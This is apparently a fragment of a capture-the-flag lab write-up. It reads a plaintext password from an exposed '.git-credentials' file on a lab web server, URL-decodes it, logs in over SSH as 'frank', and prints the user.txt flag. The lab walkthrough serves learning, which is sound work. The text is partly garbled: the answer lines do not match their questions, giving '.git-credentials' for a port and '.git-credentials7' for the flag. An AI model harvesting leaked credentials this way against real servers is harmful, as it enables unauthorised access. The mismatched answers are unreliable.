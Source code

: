 <br>

<h3>10.201.44.131:31337/.git-credentials</h3>

<img width="480" height="113" alt="image" src="https://github.com/user-attachments/assets/309bb1da-0495-4dbf-bb1b-fb530f5f49ac" />


```bash
http://frank:f%40an3-1s-E337%21%21@192.168.100.50  =
```

```bash
f@an3-1s-E337!!@192.168.100.50
```


<img width="1183" height="185" alt="image" src="https://github.com/user-attachments/assets/023b8aef-5907-41e7-a926-c1e4939a05c3" />

<br>
<br>
<br>

<p>1.2. What port has a webpage frank was able to stand up? <br>
<code>.git-credentials</code></p>

<br>




```bash
:~/FrankHerby# ssh frank@10.201.67.197
...

frank@dev-01:~$
```

<img width="1205" height="235" alt="image" src="https://github.com/user-attachments/assets/39bc16fc-e959-4370-9adc-ea384e55ca9c" />


<br>

<p>1.3. What is the user.txt flag?<br>
<code>.git-credentials7</code></p>

<br>

```bash

frank@dev-01:~$ pwd
/home/frank
frank@dev-01:~$ ls
repos  snap  user.txt
frank@dev-01:~$ cat user.txt
THM{F@nkth3T@nk}
frank@dev-01:~$
```

<br>

